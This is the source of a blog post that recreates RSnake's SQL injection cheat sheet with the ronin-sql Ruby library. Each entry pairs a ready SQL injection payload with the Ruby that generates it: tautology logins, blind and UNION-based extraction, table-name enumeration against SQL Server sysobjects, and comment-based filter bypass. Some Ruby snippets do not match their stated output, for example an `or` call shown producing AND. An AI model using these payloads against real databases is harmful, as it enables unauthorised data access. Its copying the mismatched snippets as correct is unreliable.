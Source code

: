 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using ronin-sql 1.1.0
author: postmodern
tags:
 - ronin
 - sqli
 - rsnake
---
```


After the release of [ronin-sql] 1.0.0, I wondered if we could recreate
[RSnake's SQL Injection Cheat Sheet][1] using the new [Ronin::SQL]
Domain Specific Language (DSL). Let's see how far we can get.

Normal SQL Injection:

{% highlight sql %}
1 OR 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# => 1 OR 1=1
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight sql %}
1' OR '1'='1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { string(1) == string(1) }
puts sqli
# 1' OR '1'='1
{% endhighlight %}

Blind SQL Injection:

{% highlight sql %}
1 AND 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# 1 AND 1=1
{% endhighlight %}

Blind SQL Injection to attempt to locate `table_name` by brute-force
iteration through table name permutations:

{% highlight sql %}
1' AND 1=(SELECT COUNT(*) FROM tablenames); --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { select(count).from(:users) == 1 }
puts sqli
# 1 AND (SELECT COUNT(*) FROM users)=1
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight sql %}
1' AND non_existant_table = '1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { non_existant_table == '1' }
puts sqli
# 1' AND non_existant_table='1
{% endhighlight %}

Dumping usernames:

{% highlight sql %}
' OR username IS NOT NULL OR username = '
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { username.is_not(null) }.or { username == '' }
puts sqli
# 1' OR username IS NOT NULL OR username='
{% endhighlight %}

Enumerating through database table names:

{% highlight sql %}
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.and {
  ascii(
    lower(
      substring(
        select(:name).top(1).from(sysobjects).where { xtype == 'U' }, 1, 1
      )
    )
  ) > 116
}
puts sqli
# 1 AND ASCII(LOWER(SUBSTRING((SELECT name TOP 1 FROM sysobjects WHERE xtype='U'),1,1)))>116
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight sql %}
1 UNION ALL SELECT 1,2,3,4,5,6,name FROM sysObjects WHERE xtype = 'U' --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union_all {
  select(1,2,3,4,5,6,name).from(sysObjects).where { xtype == 'U' }
}
puts sqli.to_sql(:terminate => true)
# 1 UNION ALL (SELECT (1,2,3,4,5,6,name) FROM sysObjects WHERE xtype='U');--
{% endhighlight %}

Bypass filters using `/**/` instead of spaces:

{% highlight sql %}
1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union { select(1,2,3,4,id).from(users) }
puts sqli.to_sql(:space => '/**/')
# 1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

Not too shabby!

[1]: http://ha.ckers.org/sqlinjection/

[ronin-sql]: https://github.com/ronin-ruby/ronin-sql#readme
[Ronin::SQL]: http://ronin-ruby.github.com/docs/ronin-sql/Ronin/SQL.html
